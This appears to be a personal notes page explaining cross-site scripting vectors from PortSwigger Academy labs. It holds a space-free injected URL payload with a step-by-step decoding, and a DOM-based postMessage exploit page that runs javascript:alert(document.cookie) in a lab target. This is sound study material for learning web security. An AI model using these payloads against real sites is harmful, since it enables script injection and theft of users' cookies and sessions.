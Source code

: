 # XSS Vectors
## XSS Vector Without Spaces, Using Throw

This payload is taken from the portswigger academy [lab](https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked). The request url is the following `/post?postId=5&%27},x=x=%3E{onerror=alert;throw/**/1337},toString=x,window+'',{x:'<`{.verbatim}. When the request is sent, the injected html looks like this:

``` html
<a href="javascript:fetch('/analytics', {method:'post',body:'/post%3fpostId%3d5%26%27},x%3dx%3d%3e{onerror%3dalert%3bthrow/**/1337},toString%3dx,window+%27%27,{x%3a%27%3c'}).finally(_ => window.location = '/')">Back to Blog</a>
```

When we extract just the href attribute, remove the javascript prefix and url-decode everything(remember, since we are in an href, url encoded values are actually used in their decoded form, so even though the \' is encoded to %27, it still closes the previous single quote) we are left with the js code:

``` javascript
fetch('/analytics',
  {method:'post',body:'/post?postId=5&'},x=x=>{onerror=alert;throw/**/1337},toString=x,window+''
      ,{x:''}).finally(_ => window.location = '/')
```

What this vector does can be split up into steps:

1.  close the `body:`{.verbatim} of the dictionary and close the dictionary, and add a new parameter to the call of the `fetch()`{.verbatim} function.
2.  In this new call, define a new function `x`{.verbatim} that always throws the error `1337`{.verbatim} a. When the function is called, `window.onerror`{.verbatim} is set to the `alert`{.verbatim} function, so every error thrown in `x()`{.verbatim} is passed to `alert`{.verbatim} b. then, we throw an error with the message `1337`{.verbatim} c. `x(x)`{.verbatim} also has a parameter named x, this is because we use the x function as a substitute for `toString`{.verbatim}. If we hadn\'t defined it like that, the javascript interpreter would throw an error before we could even call `x`{.verbatim}, therefore, our payload wouldn\'t run.
3.  Then, with `toString=x`{.verbatim}, we set the toString function to x
4.  Finally, we run `window+''`{.verbatim}, which implicitly calls toString and therefore runs our malicious function x.
5.  The rest are used to close the dictionary that we have injected into so that we end up with valid javascript.

# DOM Based XSS message

``` html
<script>
function message(){
document.getElementById('xss').contentWindow.postMessage('{"type":"load-channel","url":"javascript:alert(document.cookie)"}','*');
}
</script>

<iframe height=1000 width=1000 id="xss" src="https://aca21f1a1ea5dc85808d28650079004d.web-security-academy.net/" onload="message()">
</iframe>
```